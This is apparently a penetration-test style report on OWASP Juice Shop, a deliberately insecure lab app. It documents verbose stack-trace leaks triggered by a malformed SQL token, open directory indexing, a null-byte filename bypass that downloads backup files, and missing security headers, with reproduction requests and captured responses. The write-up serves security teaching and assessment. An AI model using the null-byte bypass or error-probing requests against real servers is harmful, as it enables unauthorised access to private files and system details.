






# Security Misconfiguration Assessment Report

## Severity: High

**OWASP Classification**
- A02:2025 – Security Misconfiguration
- A05:2021 – Security Misconfiguration

**CWE References**
- CWE-209 – Generation of Error Message Containing Sensitive Information
- CWE-548 – Exposure of Information Through Directory Listing
- CWE-200 – Exposure of Sensitive Information to an Unauthorized Actor
- CWE-693 – Protection Mechanism Failure

---

## 1. Executive Summary

During the security assessment of OWASP Juice Shop, three critical security misconfigurations were identified across the application tier, static asset servers, and HTTP header policies:

1. **Verbose Error & Database Stack Trace Disclosure (CWE-209):** The application runs with development error handling enabled in production (`errorhandler`). Unhandled database syntax errors and route failures return HTML error pages containing the database engine type (SQLite), raw SQL statements, internal server filesystem paths, line numbers, and Express framework version tags.
2. **Unrestricted Directory Indexing & Sensitive File Exposure (CWE-548 / CWE-200):** The `/ftp` route enables public directory indexing via `serve-index`. An unauthenticated attacker can browse the entire directory tree and view internal backup files. Furthermore, a flawed poison null-byte cutoff mechanism allows bypassing file extension whitelists to download critical application backups (`package.json.bak`, `coupons_2013.md.bak`).
3. **Missing Defensive HTTP Security Headers (CWE-693):** Baseline analysis of server responses revealed the total absence of essential client-side protection headers, including Content Security Policy (`CSP`), HTTP Strict Transport Security (`HSTS`), and `Referrer-Policy`, leaving the application vulnerable to cross-site scripting, framing, and transport downgrade attacks.

---

## 2. Application Context & Attack Surface

```text
Target Base URL: http://127.0.0.1:3000
Environment: Node.js / Express / Sequelize (SQLite3) / Angular SPA
Testing Proxy: Burp Suite Community Edition (127.0.0.1:8080)
```

| Vector | Target Endpoint | HTTP Method | Context / Purpose |
| :--- | :--- | :---: | :--- |
| **Vector 1** | `/rest/products/search?q='))` | `GET` | Product search with unhandled SQL syntax exception |
| **Vector 1 (Aux)** | `/ftp/invalid` | `GET` | Static file request triggering internal routing failure |
| **Vector 2** | `/ftp/` | `GET` | Static asset root directory browsing |
| **Vector 2 (Aux)** | `/ftp/package.json.bak%2500.md` | `GET` | File server null-byte cutoff extension bypass |
| **Vector 3** | `/*` (Global) | `ALL` | HTTP response headers inspection |

---

## 3. Technical Findings & Proof of Concept

### 3.1 Vector 1: Verbose Error & Database Stack Trace Disclosure (CWE-209)

#### Vulnerability Mechanism
When input triggers an unhandled database exception or an unhandled Express route error, the exception is passed down the middleware chain via `next(err)`. In `server.ts`, the application mounts the Express development error handler:
```typescript
/* Error Handling */
app.use(verify.errorHandlingChallenge())
app.use(errorhandler())
```
Because `errorhandler()` is designed purely for local debugging, it captures uncaught errors and renders a stylized HTML response containing the full error call stack, file paths, and runtime metadata.

#### Reproduction Steps – Database Error Leak
1. Launch Burp Suite and configure the browser to route through `127.0.0.1:8080`.
2. Send an unescaped SQL token sequence to the product search API:
   ```http
   GET /rest/products/search?q=')) HTTP/1.1
   Host: 127.0.0.1:3000
   ```
3. Observe the response in Burp Repeater:
   ```http
   HTTP/1.1 500 Internal Server Error
   Content-Type: text/html; charset=utf-8
   Connection: keep-alive

   <html>
     <head>
       <title>Error: SQLITE_ERROR: near &quot;)&quot;: syntax error</title>
       ...
     </head>
     <body>
       <div id="wrapper">
         <h1>OWASP Juice Shop (Express ^4.22.1)</h1>
         <h2><em>500</em> Error: SQLITE_ERROR: near &quot;)&quot;: syntax error</h2>
         <ul id="stacktrace"></ul>
       </div>
     </body>
   </html>
   ```

#### Evidence – SQL Syntax Error & Version Disclosure
Burp Repeater capture demonstrating internal SQLite database syntax error and Express framework version disclosure.



---

#### Reproduction Steps – Internal Path & Stack Trace Leak
1. In Burp Repeater, submit a request for an invalid file under `/ftp`:
   ```http
   GET /ftp/invalid HTTP/1.1
   Host: 127.0.0.1:3000
   ```
2. The server responds with `HTTP 403 Forbidden` wrapped inside the `errorhandler` HTML template, exposing absolute server paths and source files:
   ```http
   HTTP/1.1 403 Forbidden
   Content-Type: text/html; charset=utf-8

   ...
   <div id="wrapper">
     <h1>OWASP Juice Shop (Express ^4.22.1)</h1>
     <h2><em>403</em> Error: Only .md and .pdf files are allowed!</h2>
     <ul id="stacktrace">
       <li> &nbsp; &nbsp;at verify (/home/sxs007/.../build/routes/fileServer.js:68:18)</li>
       <li> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/sxs007/.../node_modules/express/lib/router/layer.js:95:5)</li>
       ...
     </ul>
   </div>
   ```

#### Evidence – Stack Trace & Filesystem Path Disclosure
Burp Repeater capture showing full source code paths, internal function names, and file line numbers dumped to the client.



---

### 3.2 Vector 2: Unrestricted Directory Indexing & Sensitive File Disclosure (CWE-548 / CWE-200)

#### Vulnerability Mechanism
In `server.ts`, the static file directory `/ftp` is registered using `serve-index`:
```typescript
app.use('/ftp', serveIndexMiddleware, serveIndex('ftp', { icons: true }))
app.use('/ftp(?!/quarantine)/:file', servePublicFiles())
```
The `serveIndex` middleware generates an interactive HTML listing of every file present on the disk within `ftp/`. 

Furthermore, `routes/fileServer.ts` attempts to enforce an extension whitelist (`.md` and `.pdf`), but contains a critical logical flaw:
```typescript
function verify (file: string, res: Response, next: NextFunction) {
  if (file && (endsWithAllowlistedFileType(file) || (file === 'incident-support.kdbx'))) {
    file = security.cutOffPoisonNullByte(file)
    ...
    res.sendFile(path.resolve('ftp/', file))
  }
...
function endsWithAllowlistedFileType (param: string) {
  return param.endsWith('.md') || param.endsWith('.pdf')
}
```
The check `endsWithAllowlistedFileType` is evaluated *before* calling `security.cutOffPoisonNullByte(file)`. If an attacker requests `package.json.bak%2500.md`, the parameter ends in `.md`, successfully passing the whitelist. Next, `cutOffPoisonNullByte` truncates everything starting from the null byte (`%00`), transforming the filename to `package.json.bak`. The server then executes `res.sendFile()`, serving the private backup file.

#### Reproduction Steps – Directory Indexing
1. Send an HTTP `GET` request to `/ftp/`:
   ```http
   GET /ftp/ HTTP/1.1
   Host: 127.0.0.1:3000
   ```
2. The server responds with `HTTP 200 OK` and renders the directory index containing:
   - `package.json.bak`
   - `coupons_2013.md.bak`
   - `incident-support.kdbx` (KeePass password database)
   - `suspicious_errors.yml`
   - `acquisitions.md`

#### Evidence – Public Directory Indexing
Burp Repeater capture showing full directory browsing exposing internal backup files.



---

#### Reproduction Steps – Sensitive Backup Download via Null-Byte Bypass
1. Send a request targeting `package.json.bak` with an appended encoded null byte and allowlisted `.md` extension:
   ```http
   GET /ftp/package.json.bak%2500.md HTTP/1.1
   Host: 127.0.0.1:3000
   ```
2. The server bypasses the extension filter and returns `HTTP 200 OK` with `Content-Type: application/octet-stream`, delivering the internal package manifest:
   ```http
   HTTP/1.1 200 OK
   Content-Type: application/octet-stream
   Content-Length: 4263

   {
     "name": "juice-shop",
     "version": "6.2.0-SNAPSHOT",
     "description": "An intentionally insecure JavaScript Web Application",
     ...
   ```

#### Evidence – Sensitive Backup Download via Null-Byte Truncation
Burp Repeater capture proving arbitrary backup file download through filter bypass.



---

### 3.3 Vector 3: Missing Defensive Security Headers (CWE-693)

#### Vulnerability Mechanism
Modern web browsers rely on standard HTTP response headers to enforce security boundaries (mitigating XSS, clickjacking, protocol downgrade attacks, and referrer leakage). Inspection of baseline server responses revealed that only minimal headers (`X-Content-Type-Options` and `X-Frame-Options`) were applied.

Critical missing headers:
- `Content-Security-Policy`: Missing entirely, allowing inline script execution and unconstrained external resource loading.
- `Strict-Transport-Security`: Missing entirely, allowing unencrypted HTTP downgrade attacks.
- `Referrer-Policy`: Missing, leaking full URLs and query strings in the `Referer` header to external origins.
- `Permissions-Policy`: Missing, allowing unrestricted access to device sensors and APIs.

#### Reproduction Steps
1. Inspect the HTTP headers on any valid response (e.g. `HEAD /`):
   ```http
   HEAD / HTTP/1.1
   Host: 127.0.0.1:3000
   ```
2. Observe the missing defensive controls in the response:
   ```http
   HTTP/1.1 200 OK
   Access-Control-Allow-Origin: *
   X-Content-Type-Options: nosniff
   X-Frame-Options: SAMEORIGIN
   Feature-Policy: payment 'self'
   X-Recruiting: /#/jobs
   ```

#### Evidence – Baseline Response Missing Security Headers
Burp Repeater capture demonstrating the complete absence of CSP, HSTS, and Referrer-Policy headers.



---

## 4. Root Cause Analysis



1. **Development Middleware in Production:** The Express development error handler was left attached to the middleware pipeline. In a hardened environment, internal errors must be captured and logged internally while returning standardized, opaque responses to the client.
2. **Directory Browsing Enabled:** `serve-index` was mounted directly on `/ftp`, allowing directory traversal discovery without access control.
3. **Flawed Extension Validation Logic:** The file server checked for valid extensions prior to stripping poison null bytes, reversing the necessary validation order and trusting attacker-supplied characters.
4. **Insufficient Header Policies:** The application relied solely on default middleware without declaring explicit Content Security Policy, Transport Security, or Referrer policies.

---

## 5. Risk Assessment

| Vector | Impact | Likelihood | Risk Rating |
| :--- | :--- | :--- | :--- |
| **Vector 1: Error & Stack Disclosure** | High (Exposes database structure, SQL syntax, internal absolute paths) | High (Trivially triggered via malformed parameters) | **High** |
| **Vector 2: Directory Browsing & Backup Exposure** | Critical (Direct exfiltration of application backups and internal files) | High (Directly indexed in browser) | **Critical** |
| **Vector 3: Missing Security Headers** | Medium-High (Removes browser defense-in-depth against XSS and framing) | High (Applies globally to all visitors) | **Medium-High** |
